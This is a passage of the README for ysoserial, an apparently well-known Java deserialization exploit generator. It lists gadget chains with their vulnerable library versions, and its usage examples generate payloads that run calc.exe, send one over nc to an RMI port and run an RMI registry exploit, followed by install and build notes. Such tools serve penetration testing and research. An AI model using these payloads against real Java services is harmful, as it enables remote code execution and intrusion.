 ```shell
     Myfaces2            @mbechler
     ROME                @mbechler                   rome:1.0
     Spring1             @frohoff                    spring-core:4.1.4.RELEASE, spring-beans:4.1.4.RELEASE
     Spring2             @mbechler                   spring-core:4.1.4.RELEASE, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2
     URLDNS              @gebl
     Vaadin1             @kai_ullrich                vaadin-server:7.7.14, vaadin-shared:7.7.14
     Wicket1             @jacob-baines               wicket-util:6.23.0, slf4j-api:1.6.4
```

## Examples

```shell
$ java -jar ysoserial.jar CommonsCollections1 calc.exe | xxd
0000000: aced 0005 7372 0032 7375 6e2e 7265 666c  ....sr.2sun.refl
0000010: 6563 742e 616e 6e6f 7461 7469 6f6e 2e41  ect.annotation.A
0000020: 6e6e 6f74 6174 696f 6e49 6e76 6f63 6174  nnotationInvocat
...
0000550: 7672 0012 6a61 7661 2e6c 616e 672e 4f76  vr..java.lang.Ov
0000560: 6572 7269 6465 0000 0000 0000 0000 0000  erride..........
0000570: 0078 7071 007e 003a                      .xpq.~.:

$ java -jar ysoserial.jar Groovy1 calc.exe > groovypayload.bin
$ nc 10.10.10.10 1099 < groovypayload.bin

$ java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit myhost 1099 CommonsCollections1 calc.exe
```

## Installation

1. Download the latest jar from
   [JitPack](https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar)
   [![Download Latest Snapshot](https://img.shields.io/badge/download-master-green.svg)](
    https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar)

Note that GitHub-hosted releases were removed in compliance with the
[GitHub Community Guidelines](
    https://help.github.com/articles/github-community-guidelines/#what-is-not-allowed)

## Building

Requires Java 1.7+ and Maven 3.x+

```mvn clean package -DskipTests```

## Code Status

[![Build Status](https://travis-ci.org/frohoff/ysoserial.svg?branch=master)](https://travis-ci.org/frohoff/ysoserial)
[![Build status](https://ci.appveyor.com/api/projects/status/a8tbk9blgr3yut4g/branch/master?svg=true)](https://ci.appveyor.com/project/frohoff/ysoserial/branch/master)

## Contributing

1. Fork it
2. Create your feature branch (`git checkout -b my-new-feature`)
3. Commit your changes (`git commit -am 'Add some feature'`)
4. Push to the branch (`git push origin my-new-feature`)
5. Create new Pull Request

## See Also
```